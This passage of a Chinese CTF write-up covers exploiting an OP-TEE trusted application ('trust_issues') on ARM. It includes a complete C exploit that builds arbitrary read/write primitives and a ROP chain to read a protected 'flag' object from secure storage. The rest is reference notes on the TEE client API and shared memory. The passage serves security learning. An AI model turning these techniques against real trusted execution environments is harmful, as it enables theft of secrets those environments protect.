.text:0011CA12                 ADD             SP, SP, #8
.text:0011CA14                 POP             {R7,PC}
```

所以这里我们就不能从函数开头开始执行，否则返回地址就不是我们ROP中的返回地址，而是`LR`寄存器中的返回地址了，需要从`SUB SP, SP, *`开始。

此外，保存的返回地址需要+1才能正常执行，原因是 ARM 处理器支持两种指令集模式：


**CPU工作在哪种模式由CPSR程序状态寄存器决定**：



由于 ARM 和 Thumb 模式指令长度不同，需要通过某种方式来正确处理返回地址。无论是ARM还是Thumb，指令地址都是2字节对齐的，地址的最低位就可以被复用为工作状态判断标志（用以设置CPSR的T位），因此当ARM下调用`BX/BLX`指令或在Thumb下调用`POP {...,pc}`指令进行跳转时，**如果目标地址运行在 Thumb 模式，都需要将返回地址加 1**。

# Exp

```c
#include <ctype.h>
#include <err.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

/* OP-TEE TEE client API (built by optee_client) */
#include <tee_client_api.h>

/* For the UUID (found in the TA's h-file(s)) */
#include <trust_issues_ta.h>

void hex_dump(void* buf, size_t len) {
    uint32_t *p = (uint32_t *)buf;
    uint8_t *end = (uint8_t *)buf + len;
    if (len >= 0x10) {
        for (; (uint8_t *)(p+4) <= end; p+=4) {
            printf("0x%08x 0x%08x 0x%08x 0x%08x\n", p[0], p[1], p[2], p[3]);
        }
    }
    if (len % 0x10 >= 8) {
        printf("0x%08x 0x%08x ", p[0], p[1]);
        p += 2;
    }
    if (len % 8 >= 4) {
        printf("0x%08x ", p[0]);
        p += 1;
    }
    if (len % 4 > 0) {
        uint32_t tmp = 0;
        for (size_t i = len % 4; i > 0; i--) {
            tmp |= p[i];
            tmp <<= 8;
        }
        printf("0x%08x\n", tmp);
    }
}

/*
 * Execute a function in the TA by invoking it, in this case
 * we're incrementing a number.
 *
 * The value of command ID part and how the parameters are
 * interpreted is part of the interface provided by the TA.
 */
void write_obj(TEEC_Session *p_sess, void *obj_id, void *buf, size_t size) {
    TEEC_Result res;
    TEEC_Operation op;
    uint32_t err_origin;

    memset(&op, 0, sizeof(op));
    op.paramTypes = TEEC_PARAM_TYPES(TEEC_MEMREF_TEMP_INPUT, TEEC_MEMREF_TEMP_INPUT,
                     TEEC_NONE, TEEC_NONE); // 0x55
    // param[0]: obj_id
    // param[1]: data
    op.params[0].tmpref.size = strlen((char *)obj_id);
    op.params[0].tmpref.buffer = obj_id;
    op.params[1].tmpref.size = size;
    op.params[1].tmpref.buffer = buf;

    res = TEEC_InvokeCommand(p_sess, TA_TRUST_ISSUES_CMD_WRITE_SECURE_OBJECT, &op,
                 &err_origin);
    if (res != TEEC_SUCCESS)
        errx(1, "TEEC_InvokeCommand failed with code 0x%x origin 0x%x",
            res, err_origin);
    printf("[+] write_secure_object_cmd: create object %s\n", (char *)op.params[0].tmpref.buffer);
}

void run_code(TEEC_Session *p_sess, TEEC_Operation *op) {
    TEEC_Result res;
    uint32_t err_origin;

    res = TEEC_InvokeCommand(p_sess, TA_TRUST_ISSUES_CMD_RUN_CODE, op,
                 &err_origin);
    //if (res != TEEC_SUCCESS)
    //    errx(1, "TEEC_InvokeCommand failed with code 0x%x origin 0x%x",
    //        res, err_origin);
    printf("[+] run_code_cmd: done!\n");
}

void abread(TEEC_Session *p_sess, uint32_t tgt, void *buf, size_t size) {
    TEEC_Operation op;

    char *code = (char *)calloc(size*3+1, sizeof(char));
    memset(code, ',', size);
    memset(code+size, '<', size);
    memset(code+size*2, '.', size);

    memset(&op, 0, sizeof(op));
    op.paramTypes = TEEC_PARAM_TYPES(TEEC_MEMREF_TEMP_INPUT, TEEC_VALUE_INOUT,
                     TEEC_MEMREF_TEMP_OUTPUT, TEEC_NONE);
    // param[0]: code
    // param[1]: input
    // param[2]: output
    op.params[0].tmpref.buffer = code;
    op.params[0].tmpref.size = size*3;
    op.params[1].value.a = tgt;
    op.params[1].value.b = size+1;
    op.params[2].tmpref.buffer = buf;
    op.params[2].tmpref.size = size+1;

    run_code(p_sess, &op);

    free(code);
}

void abwrite(TEEC_Session *p_sess, uint32_t tgt, void *src, size_t size) {
    TEEC_Operation op;

    char *code = (char *)calloc(size*3+1, sizeof(char));
    memset(code, ',', size);
    memset(code+size, '<', size);
    memset(code+size*2, '.', size);

    memset(&op, 0, sizeof(op));
    op.paramTypes = TEEC_PARAM_TYPES(TEEC_MEMREF_TEMP_INPUT, TEEC_MEMREF_TEMP_INOUT,
                     TEEC_VALUE_INOUT, TEEC_NONE);
    // param[0]: code
    // param[1]: input
    // param[2]: output
    op.params[0].tmpref.buffer = code;
    op.params[0].tmpref.size = size*3;
    op.params[1].tmpref.buffer = src;
    op.params[1].tmpref.size = size+1;
    op.params[2].value.a = tgt;
    op.params[2].value.b = (uint32_t)(size+1);

    run_code(p_sess, &op);

    free(code);
}

int main(int argc, char *argv[]) {
    TEEC_Result res;
    TEEC_Context ctx;
    TEEC_Session sess;
    TEEC_UUID uuid = TA_TRUST_ISSUES_UUID;
    uint32_t err_origin;

    /* Initialize a context connecting us to the TEE */
    res = TEEC_InitializeContext(NULL, &ctx);
    if (res != TEEC_SUCCESS)
        errx(1, "TEEC_InitializeContext failed with code 0x%x", res);

    /*
     * Open a session to the "hello world" TA, the TA will print "hello
     * world!" in the log when the session is created.
     */
    res = TEEC_OpenSession(&ctx, &sess, &uuid,
                   TEEC_LOGIN_PUBLIC, NULL, NULL, &err_origin);
    if (res != TEEC_SUCCESS)
        errx(1, "TEEC_Opensession failed with code 0x%x origin 0x%x",
            res, err_origin);

    // for test
    write_obj(&sess, "flag", "flag{123123123}", 0x10);

    uint32_t ret_addr = 0x14c664; //0x0014c5f4;
    uint32_t gadget = 0x00118F84; // POP {R0-R3}; POP {R12,PC}
    uint32_t OpenPersistentObjectWrapper = 0x00117618;
    uint32_t TEE_ReadObjectData = 0x0011C95C;
    uint32_t buf = 0x14c800;
    uint32_t input_addr = 0x200860;
    uint32_t rop[0x100] = { 0, };

    size_t i = 0;
    rop[i++] = gadget;
    rop[i++] = ret_addr+9*4;    // r0: TEE_ObjectHandle *object
    rop[i++] = buf;             // r1: const char *obj_id = "flag"
    rop[i++] = 4;               // r2: size_t obj_id_sz
    rop[i++] = 1;               // r3: uint32_t obj_data_flag = TEE_DATA_FLAG_ACCESS_READ
    rop[i++] = 0;               // r12
    rop[i++] = OpenPersistentObjectWrapper+4+1;
    rop[i++] = 0xdeadbeef;      // r7

    rop[i++] = gadget;
    rop[i++] = 0;               // r0: TEE_ObjectHandle object
    rop[i++] = input_addr;      // r1: void *buffer
    rop[i++] = 0x40;            // r2: uint32_t size
    rop[i++] = buf + 8;         // r3: uint32_t *count
    rop[i++] = 0;               // r12
    rop[i++] = TEE_ReadObjectData+8+1;
    rop[i++] = 0xdeadbeef;      // r7

    //memset((char *)&rop[i], '\xaa', (0x100-i)*4);
    memcpy((char *)&rop[0x67], "flag\x00", 5); // buf
    abwrite(&sess, ret_addr, rop, 0x100*4);
    //hex_dump(rop, 0x100);
    puts((char *)rop);

    /*
     * We're done with the TA, close the session and
     * destroy the context.
     */
    TEEC_CloseSession(&sess);
    TEEC_FinalizeContext(&ctx);
    return 0;
}
```

# OP-TEE相关知识

## CA&TA交互模板

参考：[optee_examples/blob/master/hello_world/host/main.c](https://github.com/linaro-swg/optee_examples/blob/master/hello_world/host/main.c)

```c
#include <ctype.h>
#include <err.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

/* OP-TEE TEE client API (built by optee_client) */
#include <tee_client_api.h>

/* For the UUID (found in the TA's h-file(s)) */
#include <trust_issues_ta.h>

/*
 * Execute a function in the TA by invoking it, in this case
 * we're incrementing a number.
 *
 * The value of command ID part and how the parameters are
 * interpreted is part of the interface provided by the TA.
 */
void example_ta_call(TEEC_Session *p_sess) {
    TEEC_Result res;
    TEEC_Operation op;
    uint32_t err_origin;
    char buf[0x100] = { 0, };

     // 具体参数类型及赋值方法见下一节
    memset(&op, 0, sizeof(op));
    op.paramTypes = TEEC_PARAM_TYPES(TEEC_MEMREF_TEMP_INPUT, TEEC_VALUE_INOUT,
                     TEEC_NONE, TEEC_NONE);
    op.params[0].tmpref.buffer = buf;
    op.params[0].tmpref.size = 0x100;
    op.params[1].value.a = 0xdeadbeef;
    op.params[1].value.b = 0xc0decafe;

    res = TEEC_InvokeCommand(p_sess, TA_EXAMPLE_CMD, &op,
                 &err_origin); // 替换TA_EXAMPLE_CMD
    if (res != TEEC_SUCCESS)
        errx(1, "TEEC_InvokeCommand failed with code 0x%x origin 0x%x",
            res, err_origin);
}

int main(int argc, char *argv[]) {
    TEEC_Result res;
    TEEC_Context ctx;
    TEEC_Session sess;
    TEEC_UUID uuid = TA_EXAMPLE_UUID; // 替换TA_EXAMPLE_UUID
    uint32_t err_origin;

    /* Initialize a context connecting us to the TEE */
    res = TEEC_InitializeContext(NULL, &ctx);
    if (res != TEEC_SUCCESS)
        errx(1, "TEEC_InitializeContext failed with code 0x%x", res);

    /*
     * Open a session to the "hello world" TA, the TA will print "hello
     * world!" in the log when the session is created.
     */
    res = TEEC_OpenSession(&ctx, &sess, &uuid,
                   TEEC_LOGIN_PUBLIC, NULL, NULL, &err_origin);
    if (res != TEEC_SUCCESS)
        errx(1, "TEEC_Opensession failed with code 0x%x origin 0x%x",
            res, err_origin);

    // do something...

    /*
     * We're done with the TA, close the session and
     * destroy the context.
     */
    TEEC_CloseSession(&sess);
    TEEC_FinalizeContext(&ctx);
    return 0;
}
```


## TEEC_InvokeCommand参数

参考：[TEE_Client_API_Specification-V1.0.pdf](https://globalplatform.org/wp-content/uploads/2010/07/TEE_Client_API_Specification-V1.0.pdf)

根据`optee/out-br/per-package/optee_examples_ext/target/usr/include/tee_client_api.h`可以看到所有参数类型：

```c
/**
 * Flag constants indicating the type of parameters encoded inside the
 * operation payload (TEEC_Operation), Type is uint32_t.
 *
 * TEEC_NONE                   The Parameter is not used
 *
 * TEEC_VALUE_INPUT            The Parameter is a TEEC_Value tagged as input.
 *
 * TEEC_VALUE_OUTPUT           The Parameter is a TEEC_Value tagged as output.
 *
 * TEEC_VALUE_INOUT            The Parameter is a TEEC_Value tagged as both as
 *                             input and output, i.e., for which both the
 *                             behaviors of TEEC_VALUE_INPUT and
 *                             TEEC_VALUE_OUTPUT apply.
 *
 * TEEC_MEMREF_TEMP_INPUT      The Parameter is a TEEC_TempMemoryReference
 *                             describing a region of memory which needs to be
 *                             temporarily registered for the duration of the
 *                             Operation and is tagged as input.
 *
 * TEEC_MEMREF_TEMP_OUTPUT     Same as TEEC_MEMREF_TEMP_INPUT, but the Memory
 *                             Reference is tagged as output. The
 *                             Implementation may update the size field to
 *                             reflect the required output size in some use
 *                             cases.
 *
 * TEEC_MEMREF_TEMP_INOUT      A Temporary Memory Reference tagged as both
 *                             input and output, i.e., for which both the
 *                             behaviors of TEEC_MEMREF_TEMP_INPUT and
 *                             TEEC_MEMREF_TEMP_OUTPUT apply.
 *
 * TEEC_MEMREF_WHOLE           The Parameter is a Registered Memory Reference
 *                             that refers to the entirety of its parent Shared
 *                             Memory block. The parameter structure is a
 *                             TEEC_RegisteredMemoryReference. In this
 *                             structure, the Implementation MUST read only the
 *                             parent field and MAY update the size field when
 *                             the operation completes.
 *
 * TEEC_MEMREF_PARTIAL_INPUT   A Registered Memory Reference structure that
 *                             refers to a partial region of its parent Shared
 *                             Memory block and is tagged as input.
 *
 * TEEC_MEMREF_PARTIAL_OUTPUT  Registered Memory Reference structure that
 *                             refers to a partial region of its parent Shared
 *                             Memory block and is tagged as output.
 *
 * TEEC_MEMREF_PARTIAL_INOUT   The Registered Memory Reference structure that
 *                             refers to a partial region of its parent Shared
 *                             Memory block and is tagged as both input and
 *                             output, i.e., for which both the behaviors of
 *                             TEEC_MEMREF_PARTIAL_INPUT and
 *                             TEEC_MEMREF_PARTIAL_OUTPUT apply.
 */
#define TEEC_NONE                   0x00000000
#define TEEC_VALUE_INPUT            0x00000001
#define TEEC_VALUE_OUTPUT           0x00000002
#define TEEC_VALUE_INOUT            0x00000003
#define TEEC_MEMREF_TEMP_INPUT      0x00000005
#define TEEC_MEMREF_TEMP_OUTPUT     0x00000006
#define TEEC_MEMREF_TEMP_INOUT      0x00000007
#define TEEC_MEMREF_WHOLE           0x0000000C
#define TEEC_MEMREF_PARTIAL_INPUT   0x0000000D
#define TEEC_MEMREF_PARTIAL_OUTPUT  0x0000000E
#define TEEC_MEMREF_PARTIAL_INOUT   0x0000000F

/**
 * union TEEC_Parameter - Memory container to be used when passing data between
 *                        client application and trusted code.
 *
 * Either the client uses a shared memory reference, parts of it or a small raw
 * data container.
 *
 * @param tmpref  A temporary memory reference only valid for the duration
 *                of the operation.
 *
 * @param memref  The entire shared memory or parts of it.
 *
 * @param value   The small raw data container to use
 */
typedef union {
	TEEC_TempMemoryReference tmpref;
	TEEC_RegisteredMemoryReference memref;
	TEEC_Value value;
} TEEC_Parameter;
```

### TEEC_VALUE_*

其中，`TEEC_VALUE_*`类型的参数为值传递类型的参数：

```c
/**
 * struct TEEC_Value - Small raw data container
 *
 * Instead of allocating a shared memory buffer this structure can be used
 * to pass small raw data between a client application and trusted code.
 *
 * @param a  The first integer value.
 *
 * @param b  The second value.
 */
typedef struct {
	uint32_t a;
	uint32_t b;
} TEEC_Value;
```

内存型的参数参考[API文档](https://globalplatform.org/wp-content/uploads/2010/07/TEE_Client_API_Specification-V1.0.pdf)`3.2.4. Shared Memory`和`3.2.5. Memory References`。

### TEEC_MEMREF_TEMP_*

其中，`TEEC_MEMREF_TEMP_*`类型的参数可以直接指向CA内存，会由TA进行临时注册：

```c
/**
 * struct TEEC_TempMemoryReference - Temporary memory to transfer data between
 * a client application and trusted code, only used for the duration of the
 * operation.
 *
 * @param buffer  The memory buffer which is to be, or has been shared with
 *                the TEE.
 * @param size    The size, in bytes, of the memory buffer.
 *
 * A memory buffer that is registered temporarily for the duration of the
 * operation to be called.
 */
typedef struct {
	void *buffer;
	size_t size;
} TEEC_TempMemoryReference;
```

### TEEC_MEMREF_WHOLE/PARTIAL_*

参考：

* [REE进程（CA）如何与TEE进程（TA）实现共享内存通信](https://zhuanlan.zhihu.com/p/699100914)
* [OP-TEE中TA与CA执行流程-------libteec介绍](https://blog.csdn.net/shuaifengyun/article/details/72885373)

`TEEC_MEMREF_WHOLE`和`TEEC_MEMREF_PARTIAL_*`类型的参数需要由用户自行注册，或通过API申请共享内存：

```c
/**
 * struct TEEC_RegisteredMemoryReference - use a pre-registered or
 * pre-allocated shared memory block of memory to transfer data between
 * a client application and trusted code.
 *
 * @param parent  Points to a shared memory structure. The memory reference
 *                may utilize the whole shared memory or only a part of it.
 *                Must not be NULL
 *
 * @param size    The size, in bytes, of the memory buffer.
 *
 * @param offset  The offset, in bytes, of the referenced memory region from
 *                the start of the shared memory block.
 *
 */
typedef struct {
	TEEC_SharedMemory *parent;
	size_t size;
	size_t offset;
} TEEC_RegisteredMemoryReference;
```

共享内存结构如下：

```c
/**
 * struct TEEC_SharedMemory - Memory to transfer data between a client
 * application and trusted code.
 *
 * @param buffer      The memory buffer which is to be, or has been, shared
 *                    with the TEE.
 * @param size        The size, in bytes, of the memory buffer.
 * @param flags       Bit-vector which holds properties of buffer.
 *                    The bit-vector can contain either or both of the
 *                    TEEC_MEM_INPUT and TEEC_MEM_OUTPUT flags.
 *
 * A shared memory block is a region of memory allocated in the context of the
 * client application memory space that can be used to transfer data between
 * that client application and a trusted application. The user of this struct
 * is responsible to populate the buffer pointer.
 */
typedef struct {
	void *buffer;
	size_t size;
	uint32_t flags;
	/*
	 * Implementation defined
	 */
	struct {
		int id;
		size_t alloced_size;
		void *shadow_buffer;
		int registered_fd;
		uint32_t flags;
	} imp;
} TEEC_SharedMemory;

```

用户自行注册共享内存注册方法举例如下，CA可以将栈、堆等任意类型的内存通过`TEEC_RegisterSharedMemory`接口注册到OPTEE：

```c
    TEEC_SharedMemory shm;
    char shared_mem[100] = { 0, };
    shm.buffer = shared_mem;
    shm.size = sizeof(shared_mem);
    shm.flags = TEEC_MEM_INPUT | TEEC_MEM_OUTPUT;
    res = TEEC_RegisterSharedMemory(&ctx, &shm);

    memset(&op, 0, sizeof(op));
    op.paramTypes = TEEC_PARAM_TYPES(TEEC_MEMREF_WHOLE, TEEC_NONE, TEEC_NONE, TEEC_NONE);
    op.params[0].memref.parent = &shm;
    op.params[0].memref.size = shm.size;
    res = TEEC_InvokeCommand(&sess, COMMAND_ID, &op, &err_origin);
```

用户直接从OPTEE申请共享内存方法举例如下，CA可以通过`TEEC_AllocateSharedMemory`接口直接从OPTEE获取一块共享内存（由OPTEE分配）：

```c
    TEEC_SharedMemory shm;
    shm.size = SHARED_MEMORY_SIZE;
    shm.flags = TEEC_MEM_INPUT | TEEC_MEM_OUTPUT;
    result = TEEC_AllocateSharedMemory(&ctx, &shm);

    char *shared_data = (char *)shm.buffer;
    *shared_data = 'a';

    memset(&op, 0, sizeof(op));
    op.paramTypes = TEEC_PARAM_TYPES(TEEC_MEMREF_WHOLE, TEEC_NONE, TEEC_NONE, TEEC_NONE);
    op.params[0].memref.parent = &shm;
    op.params[0].memref.size = shm.size;
    res = TEEC_InvokeCommand(&sess, COMMAND_ID, &op, &err_origin);
```

> [!note]
>
> 两种方法的本质都是通过ioctl进行smc调用：
>
> * 前者执行`TEE_IOC_SHM_REGISTER`，将CA中的内存注册到OPTEE，再获取该共享内存的fd，通过mmap将共享内存的fd映射到CA，存入`TEEC_SharedMemory`结构体的`shadow_buffer`成员。
> * 后者执行`TEE_IOC_SHM_ALLOC`，直接从OPTEE申请获得共享内存（由OPTEE分配）的fd，通过mmap将共享内存的fd映射到CA，存入`TEEC_SharedMemory`结构体的`buffer`成员。
>
> 此外还提供了`TEEC_RegisterSharedMemoryFileDescriptor `接口，是`TEEC_RegisterSharedMemory`的另一个变种，注册的是一个CA作为共享内存使用的文件的fd，实际注册流程本质大差不差。


